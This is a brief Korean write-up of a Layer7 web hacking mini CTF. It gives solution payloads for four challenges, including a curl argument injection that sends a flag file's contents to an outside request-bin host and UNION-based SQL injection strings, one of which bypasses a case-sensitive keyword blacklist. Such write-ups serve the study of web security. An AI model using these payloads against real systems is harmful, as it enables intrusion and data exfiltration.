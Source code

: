 ```yaml
---
title: Layer7 Web Hacking mini CTF | Write-up
categories:
    - Layer7
    - Web Hacking
tags:
    - Layer7
    - Web Hacking
date: 2025-08-07
---
```



## Rednose U

![](image1.png)
`SSTI`로 `JWTKey`를 얻을 수 있어서 대시보드에 접속할 수 있다.

<br>

![](image2.png)
![](image3.png)

대시보드를 보면 `/api/metar`에서 `airport` 인자로 특정 주소에서 값을 가져오는 것으로 보이는데, 코드를 보면 `curl`을 실행하는 것을 확인할 수 있다.

<br>

![](image4.png)

그래서 플래그를 읽어서 리퀘스트 빈에 보내도록 하였다.

`http://211.177.227.113:65303/api/metar?airport=-X%20POST%20https://cqymucy.request.dreamhack.games%20-d%20%22$(cat%20flag_qaiu.txt)%22` 

<br>

## W2

![](image5.png)
![](image6.png)
![](image7.png)

`fstring`으로 쿼리문을 처리하기 때문에 `SQLI` 취약점이 터진다.

`flags` 테이블에 있는 플래그를 `UNION` 명령을 통해 출력하도록 하였다. 블랙리스트에 있는 `select`는 소문자만 막기 때문에 대문자로 우회 가능하다.

`http://211.177.227.113:65304/profile?id=1234%20UNION%20SELECT%20%27flag%27,flag_value,%27%27,%27secret%27%20FROM%20flags%20WHERE%20flag_name=%27main_flag%27--`

<br>

## SRS

````
L7_WH_CTF/SRS/for_user via  v3.13.5 
❯ cat flag_server.py | grep Layer7{
        'flag': 'Layer7{ssrf_easy}',
````

문제 파일에 플래그가 하드코딩 되어있다.

<br>

## T야?

![](image8.png)

여기도 `fstring`으로 쿼리문을 처리해서 `SQLI`가 터지는 걸 알 수 있다.

<br>

![](image9.png)

`flags` 테이블에서 플래그를 가져와 `username`에 `UNION` 해줬다.

`' UNION SELECT 1, flag_value, 'dummy', 'admin' FROM flags --`
